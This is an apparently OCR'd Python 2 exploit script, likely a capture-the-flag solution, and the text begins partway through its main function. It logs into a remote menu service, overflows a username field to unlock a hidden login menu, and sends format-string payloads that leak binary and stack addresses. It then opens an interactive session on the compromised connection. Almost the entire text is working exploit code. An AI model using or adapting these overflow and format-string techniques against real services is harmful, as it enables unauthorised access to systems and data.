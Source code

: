 ```python
    sendln('guest')
    readtil('Password: ')
    sendln('guest123')
    readtil('choice: ')
    sendln('2')
    readtil('username:')
    sendln("A"*256)     # overflow userflag
    readtil('choice: ')
    sendln('4')         # secret login menu
    
    ### first format string vuln to read stack addr
    readtil('Login: ')
    # leak both binary address and stack address
    sendln('%1$lp-%'+sys.argv[1]+'$lp')
    readtil('Password: ')
    sendln('bleh')
    data = readtil('login failed.')
    
    m = re.findall(r'([a-f0-9]{5,})', data)
    # find stack addr:
    stack_addr = int(m[1], 16) 
    base_addr = int(m[0], 16) - 0x1490
    
    print "[+] Leaked address of base: {}".format(hex(base_addr))
    print "[+] Leaked address of stack: {}".format(hex(stack_addr))
    
    readtil('Login: ')
    
    sendln('AAAAAAABBBC%10$s'+q(stack_addr-504))    # this offset of 504 was found locally and seems to be correct for remote, too
    
    readtil('Password: ')
    sendln('bleh')
    data = s.recv(1000)
    print data 
    print hex(struct.unpack('<Q', data[len('AAAAAAABBBC'):len('AAAAAAABBBC')+6]+b"\x00\x00")[0])
    print "you're looking for {}".format(hex(base_addr + 0x120c))
    
    # check if the stack location contains the right return address
    if (struct.unpack('<Q', data[len('AAAAAAABBBC'):len('AAAAAAABBBC')+6]+b"\x00\x00")[0]) == (base_addr + 0x120c):
        print "Found at {}".format(sys.argv[1])
        raw_input()
        
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

    s.close()

pwn()
```
